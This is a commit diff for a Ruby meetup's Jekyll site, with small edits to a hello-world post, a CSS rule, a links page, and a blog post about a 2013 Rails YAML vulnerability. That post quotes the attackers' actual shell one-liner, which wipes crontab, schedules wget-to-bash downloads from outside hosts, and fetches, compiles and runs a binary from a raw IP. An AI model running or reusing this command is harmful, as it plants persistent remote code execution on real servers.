

Before and after one commit to southbayrubyla/southbayrubyla.github.com, a Jekyll site: the page built from links.html, in a window 1280 px wide. Shown: the whole page, without its empty margins (294-985 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
site update 6/6/2013

```diff
--- a/_posts/2013-06-05-hello-world.markdown
+++ b/_posts/2013-06-05-hello-world.markdown
@@ -6,16 +6,14 @@
 ---
 
 This is a first test post!
+
 -Sean
 
 {% highlight ruby %}
 #!/usr/bin/env ruby
-
 def greet(target)
   return "Hello, #{target}!"
 end
-
 puts greet("WORLD")
-
-#=> prints 'hello WORLD' to STDOUT.
+#=> prints 'hello, WORLD' to STDOUT.
 {% endhighlight %}
--- a/_posts/2013-06-06-ars-technica-article.markdown
+++ b/_posts/2013-06-06-ars-technica-article.markdown
@@ -9,7 +9,7 @@
 
 On May 28, 2013 an article on [Ars Technica][arstech] reported a malicious Rails bug that inflatrated any server running Rails 2.3.15 and lower. The attackers exploited a flaw in YAML and the rails Symbol type conversion XML parser. Attackers used hyjacked machines to create IRCbots to flood the #rails IRC channel.
 
-Attackers used a linux command similar to this:
+Attackers used a unix command similar to this:
 {% highlight bash %}
   crontab -r; echo \"1 * * * * wget -O - colkolduld.com/cmd1|bash;wget -O - lochjol.com/cmd2|bash;wget  -O - ddos.cat.com/cmd3|bash;\"|crontab -;wget http://88.198.20.247/k.c -O /tmp/k.c; gcc -o /tmp/k /tmp/k.c; chmod +x /tmp/k; /tmp/k||wget http://88.198.20.247/k -O /tmp/k && chmod +x /tmp/k && /tmp/k
 {% endhighlight %}
--- a/css/main.css
+++ b/css/main.css
@@ -66,6 +66,10 @@
   width: 42em;
   margin: 3em auto 2em;
   line-height: 1.5em;
+}
+
+.header {
+  margin-bottom: 15px;
 }
 
 .site .header a {
--- a/links.html
+++ b/links.html
@@ -25,6 +25,7 @@
   <a href="http://ruby-doc.org/">Ruby-Doc</a> : Help and documentation for the Ruby programming language.<br>
   <a href="http://guides.rubyonrails.org/">Rails Guides</a> : Community Guides for Rails 3.2.<br>
   <a href="http://guides.railsgirls.com/">Rails Girls Guides</a> : Rails guides intended for the women tech community.<br>
+  <a href="http://www.ruby-forum.com/">Ruby-Forum</a> : The most popular Ruby forum and mailing list.<br>
 
 
   </p>
```
Also changed, not shown: 2 other files.
